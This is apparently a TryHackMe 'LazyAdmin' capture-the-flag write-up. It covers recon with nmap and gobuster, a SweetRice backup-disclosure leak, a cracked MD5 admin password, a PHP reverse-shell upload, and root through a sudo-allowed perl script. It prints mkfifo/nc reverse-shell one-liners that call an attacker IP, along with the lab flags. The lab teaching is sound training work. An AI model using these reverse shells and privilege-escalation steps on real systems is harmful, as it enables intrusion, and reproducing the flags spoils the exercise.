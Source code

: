 ```yaml
---
title: TryHackMe - LazyAdmin
date: 2022-11-22 15:35:00 +0530
categories: [TryHackMe]
tags: [tryhackme, Easy]
---
```


-------

## Recon and Enumeration

We can start by adding the IP and name to `/etc/hosts`
Starting the Nmap scan.

```bash
sudo nmap -sC -sV -A -p22,80 lazy.thm
: <<"END"
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-23 00:19 EST
Nmap scan report for lazy.thm (10.10.106.144)
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 3.10 - 3.13 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   25.14 ms  10.17.0.1
2   ... 4
5   149.49 ms lazy.thm (10.10.106.144)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.33 seconds
END
```

From **nmap** scan, we know that HTTP server is running on port **80**. so we can browse to **http://lazy.thm:80**. it is default apache ubuntu landing page.

![lazyadmin pic](/assets/img/thm_lazyadmin/1.png)

Now, i have started `gobuster`  for directory scanning.

```bash
gobuster dir -u http://lazy.thm -w /usr/share/wordlists/dirb/common.txt
: <<"END"
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lazy.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/23 00:22:00 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/content              (Status: 301) [Size: 306] [--> http://lazy.thm/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 273]
Progress: 4613 / 4615 (99.96%)===============================================================
2022/11/23 00:23:12 Finished
===============================================================
END
```

From above scan, we got to know about `http://lazy.thm/content/`. Browsing to it.

![lazyadmin pic](/assets/img/thm_lazyadmin/2.png)

SweetRice is a website management system. From searching in google, i came to know that `/as` can be a login page. browsing to `http://lazy.thm/content/as/` , it is a login page.

![lazyadmin pic](/assets/img/thm_lazyadmin/3.png)

At this point, i have decided to redo directory enumeration on `/as` as well.

```bash
gobuster dir -u http://lazy.thm/content/as -w /usr/share/wordlists/dirb/common.txt
: <<"END"
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lazy.thm/content/as
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/23 00:56:05 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/index.php            (Status: 200) [Size: 3668]
/js                   (Status: 301) [Size: 312] [--> http://lazy.thm/content/as/js/]
/lib                  (Status: 301) [Size: 313] [--> http://lazy.thm/content/as/lib/]
Progress: 4598 / 4615 (99.63%)===============================================================
2022/11/23 00:57:16 Finished
===============================================================
END
```

From above, we have found that `/js` and `/lib` also exist.  Nothing juicy here.

Using `searchsploit` to look for `SweetRice`, we get 

```bash
searchsploit SweetRice
: <<"END"
-------------------------------------------------- ---------------------------------
 Exploit Title                                    |  Path
-------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion           | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities        | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download         | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload           | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure               | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery      | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PH | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Up | php/webapps/14184.txt
-------------------------------------------------- ---------------------------------
Shellcodes: No Results
END
```

## Initial Shell


After digging through above results, we have one exploit that can help us. i.e `SweetRice 1.5.1 - Backup Disclosure`. It explains that there might be mysql backups in `http://lazy.thm/content/inc/mysql_backup/`

![lazyadmin pic](/assets/img/thm_lazyadmin/4.png)

After downloading the above mysql backup and opening it, we get username as `manager` and password in MD5.

![lazyadmin pic](/assets/img/thm_lazyadmin/5.png)

> 42f749ade7f9e195bf475f37a44cafcb

Using [crackstation.net](https://crackstation.net) we can crack this MD5 hash. it is cracked as `Password123`. so we have **manager** and his password. lets try logging into website.

> manager : Password123

We have logged into the website. Initially, website status and url rewrite options were disabled. i have enabled them. 

![lazyadmin pic](/assets/img/thm_lazyadmin/6.png)

we can see Sweet rice version is `1.5.1`.

we can browse to **Ads** in **Dashboard** menu to upload our **php-reverse-shell code**.

![lazyadmin pic](/assets/img/thm_lazyadmin/7.png)

After adding the code, start the netcat listener with `nc -lnvp 1234` on port mentioned in the upload code.

Now browse to `http://lazy.thm/content/inc/ads/php-reverse-shellphp.php` to get a shell in netcat as `www-data`

![lazyadmin pic](/assets/img/thm_lazyadmin/8.png)

We can upgrade to a better shell using python.
`python -c 'import pty; pty.spawn("/bin/bash")'`

As, `www-data`, we can read the **user** flag.
```bash
cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```
## Privilege Escalation

Moving to directory `/home/itguy`, There is another file in `mysql_login.txt` with content as below. 
> rice:randompass

Lets check if `www-data` can run commands as `root` without password.

```bash
sudo -l
: <<"END"
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
END
```

From above, we can expect that we can run `backup.pl` with `perl` as root. Lets see the code in `backup.pl`.

```perl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

lets see what's in `/etc/copy.sh`
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
{: file='/etc/copy.sh'}

`vi` and `vim` editors were not found to be installed. Not enough permissions to run `nano`. We can use `echo` to modify the files, to use `nc` to connect to our second  `netcat listener`.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.7.122 1235 >/tmp/f" > /etc/copy.sh
```

```bash
# starting another netcat listener on port 1235
nc -lnvp 1235
```

Now, run `backup.pl` with `perl` with **sudo** and we should pop another shell on port 1235 as root.

`sudo /usr/bin/perl /home/itguy/backup.pl`

We can print root flag now.
```
nc -lnvp 1235
listening on [any] 1235 ...
connect to [10.17.7.122] from (UNKNOWN) [10.10.87.105] 58062
/bin/sh: 0: can't access tty; job control turned off
whoami
root
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```


